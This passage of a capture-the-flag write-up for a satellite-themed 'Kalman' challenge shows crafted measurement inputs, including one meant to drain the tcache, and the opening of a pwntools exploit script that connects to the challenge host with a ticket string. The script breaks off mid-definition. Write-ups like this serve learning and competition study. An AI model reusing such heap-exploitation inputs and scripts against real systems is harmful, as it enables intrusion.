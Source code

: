 ```
Raw Measurement 0: 100000999 0 0 0
Raw Measurement 1: 100000999 0 0 0
Raw Measurement 2: 100000999 0 0 0
Raw Measurement 3: 100000999 0 0 0
Raw Measurement 4: 100000999 0 0 0
Raw Measurement 5: 100000999 0 0 0
Raw Measurement 6: 100000999 0 0 0
Raw Measurement 7: 3735928559 3648368.206055 3468143.733398 3468144.206055
Raw Measurement 8: 0 0.063477 0.000000 0.000000
Raw Measurement 9: 0 0.063477 0.000000 0.000000
```

Running the simulation with these position values, we obtain a final covariance matrix of
\begin{matrix} 2.40386 && 0.0149185 && 1.46353 \\ 0.0149185 && 2.40386 && 1.46353 \\ 1.46353 && 1.46353 &&  2.41878 \end{matrix}


and a final estimated position of $-38.138080,-27.710931,-1.540729$.

To ensure that the final position satisfies the 10-meter constraint from the
space station, it is necessary to drain the tcache with the following position
measurement: $100000999, 33.203125, 21.484375, 2.929688$.

This did the trick, giving us a final position estimate of
$-4.933969,-6.225570,1.020739$ and the same final covariance matrix, at the end
of the simulation.

So, we got the flag!

## Exploit script

```python
#!/usr/bin/env python3
from pwn import *
#import ipdb

# exe = ELF("./Kalman_patched")
# libc = ELF("./libc-2.31.so")

# context.binary = exe
# context.log_level = 'warning'

def conn():
    if args.GDB:
        r = remote('localhost', 2007)
        input('wait for gdb to attach')
    elif args.REMOTE:
        r = remote("kalman.quals2023-kah5Aiv9.satellitesabove.me", 5300)
        r.sendlineafter(b"please:\n", b"ticket{yankee725474mike4:GPYXYVILP60gKGJ1cc_gpGhXmFSaJh9uwelxoeiMoPAPH84JrU4Sp4EsjVnd_U9xVg}")
    return r

def add_measurement(time, x, y, z):
    r.sendline(b"1")
    r.recvuntil(b"Time (US)>\n")
    r.sendline(b"%ld" % time)
    r.recvuntil(b"X>\n")
    r.sendline(b"%ld" % x)
    r.recvuntil(b"Y>\n")
    r.sendline(b"%ld" % y)
    r.recvuntil(b"Z>\n")
    r.sendline(b"%ld" % z)
    r.recvuntil(b"Choice>\n")


def add_measurement_raw(time, x, y, z):
```